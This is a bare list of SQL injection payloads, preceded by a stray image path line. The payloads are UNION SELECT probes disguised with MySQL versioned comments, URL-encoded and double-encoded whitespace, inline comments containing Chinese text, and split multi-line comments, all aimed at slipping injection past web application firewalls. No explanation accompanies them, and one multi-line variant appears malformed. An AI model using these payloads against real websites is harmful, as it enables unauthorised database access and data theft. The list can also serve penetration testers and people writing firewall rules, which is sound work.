 /*!50000union*//*!50000select*/1,2

/*!40000union*//*!40000select*/1,2

%0aunion%0aselect 1,2

%250aunion%250aselect 1,2%09union%09select 1,2

%0caunion%0cselect 1,2

%0daunion%0dselect 1,2

%0baunion%0bselect 1,2

%0d%0aunion%0d%0aselect 1,2

--+%0d%0aunion--+%0d%0aselect--+%0d%0a1,--+%0d%0a2

/*!12345union*//*!12345select*/1,2;

/*中文*/union/*中文*/select/*中文*/1,2;

/*

*/union/*

*/select/

*/1,2;

/*!union*//*!00000all*//*!00000select*/1,2

